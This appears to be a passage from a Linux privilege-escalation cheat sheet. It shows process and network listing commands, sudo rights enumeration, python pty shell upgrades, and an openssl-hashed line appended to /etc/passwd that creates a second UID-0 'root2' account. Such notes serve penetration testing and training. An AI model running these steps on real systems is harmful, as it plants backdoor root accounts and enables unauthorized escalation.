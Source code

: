 `a` and `x` are necessary when using BSD syntax as they lift the “only yourself” and “must have a tty” restrictions; in other words, it becomes possible to display all processes. And for process tree

```
ps axjf
```

#### Listing commands that can be run as sudo

The Linux Super User Do, or sudo, command allows users to escalate their privileges based on settings found in the sudoers file (typically found in /etc). When the sudo command is called, the sudoers file is checked and rights are granted if they are permitted.

```
### sudo -l
```

#### spawn a tty shell

```
root@kali:python -c 'import pty; pty.spawn("/bin/sh")'
```

OR

```
root@kali:python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Or

```
root@kali:import pty;pty.spawn("/bin/bash")
```

#### Generating a hash for password overwrite on /etc/passwd/ with new user.

```
root@kali:openssl passwd evil

root@kali:echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd

```

#### Displaying active connections with processes PID

```
root@kali:sudo ss -antlp
root@kali:netstat -tulpn

a: shows all listening ports and established connections
t: for tcp
u: for udp
l: list listening ports ready for incoming connections
s: stats about network usage
p: PID information 
n: do not resolve names
```

